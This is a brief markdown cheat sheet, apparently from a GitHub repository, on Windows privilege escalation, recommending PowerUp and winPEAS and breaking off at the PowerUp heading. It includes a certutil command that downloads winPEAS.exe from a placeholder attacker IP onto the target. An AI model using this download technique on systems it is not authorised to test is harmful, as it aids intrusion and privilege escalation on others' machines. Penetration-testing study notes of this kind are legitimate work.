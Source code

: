 # Most Common PrivEsc Methods

Here are some things I do for windows privesc.

## Identifying Privesc Vector

First I like installing a `powerup` *AND* `winPEAS`. Using these tools will help us find the attack vector `80%` of the time.

### winPEAS

winPEAS is great to find some loot and privesc. Make sure to read fine print.

```cmd
certutil -urlcache -split -f http://<attacker-ip>/winPEAS.exe winPEAS.exe
```

### PowerUP


